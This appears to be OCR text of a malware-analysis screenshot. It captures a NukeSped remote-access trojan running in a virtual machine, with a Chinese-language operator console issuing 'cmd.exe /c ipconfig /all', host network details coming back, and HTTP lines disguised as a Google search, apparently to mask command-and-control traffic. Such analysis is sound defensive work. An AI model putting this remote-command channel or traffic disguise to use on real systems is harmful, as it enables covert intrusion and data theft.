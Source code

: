 ```bash
svchost.exe                   1136 Services                   0     13,068 K
VGAuthService.exe             1300 Services                   0      5,396 K
taskhost.exe                  1384 Console                    1      9,516 K
vm3dservice.exe               1468 Services                   0      3,720 K
vmtoolsd.exe                  1500 Services                   0     17,220 K
dwm.exe                       1512 Console                    1     66,216 K
vm3dservice.exe               1520 Console                    1      4,704 K
explorer.exe                  1552 Console                    1     71,684 K
svchost.exe                   1956 Services                   0      4,432 K
vmtoolsd.exe                  1220 Console                    1     26,444 K
WmiPrvSE.exe                  1832 Services                   0     18,108 K
dllhost.exe                   1636 Services                   0      9,500 K
msdtc.exe                     2236 Services                   0      6,096 K
SearchIndexer.exe             2528 Services                   0     38,948 K
svchost.exe                   2420 Services                   0     17,248 K
svchost.exe                   1040 Services                   0     35,604 K
ProcessHacker.exe             3452 Console                    1     31,608 K
taskhost.exe                  3616 Console                    1     16,824 K
iFlyInput.exe                  292 Console                    1     48,404 K
iFlyPlatform.exe              1284 Console                    1     13,888 K
NukeSped_1.exe                2156 Console                    1      4,920 K
cmd.exe                       1360 Console                    1      3,216 K
conhost.exe                   3440 Console                    1      8,996 K
tasklist.exe                  2852 Console                    1      6,536 K

33 指令 - 请输入需执行的命令：quit-返回上层指令
>cmd.exe /c ipconfig /all
HTTP/1.1 200 OK
Content-Type: text/html
Sec-Fetch-Mode: 33
Content-Length: 25


GET http://www.google.com/search?q&cp=0&xssi=t&hl=en&authuser=1&nolsbt=1&dpr=1 HTTP/1.1
Sec-Fetch-Mode: 30
Content-Length: 00002322
Connection: keep-alive



Windows IP 配置

   主机名  . . . . . . . . . . . . . : WIN-JMKXXXXXOT
   主 DNS 后缀 . . . . . . . . . . . :
   节点类型  . . . . . . . . . . . . : 混合
   IP 路由已启用 . . . . . . . . . . : 否
   WINS 代理已启用 . . . . . . . . . : 否
   DNS 后缀搜索列表  . . . . . . . . : localdomain

以太网适配器 Bluetooth 网络连接：

   媒体状态  . . . . . . . . . . . . : 媒体已断开
   连接特定的 DNS 后缀 . . . . . . . :
   描述。. . . . . . . . . . . . . . : Bluetooth 设备 (个人区域网)
   物理地址。. . . . . . . . . . . . : 34-XX-XX-XX-58-A2
   DHCP 已启用 . . . . . . . . . . . : 是
   自动配置已启用。. . . . . . . . . : 是

以太网适配器 本地连接：

   连接特定的 DNS 后缀 . . . . . . . : localdomain
   描述。. . . . . . . . . . . . . . : Intel(R) PRO/1000 MT Network Connection
   物理地址。. . . . . . . . . . . . : 00-0C-XX-XX-2F-B1
```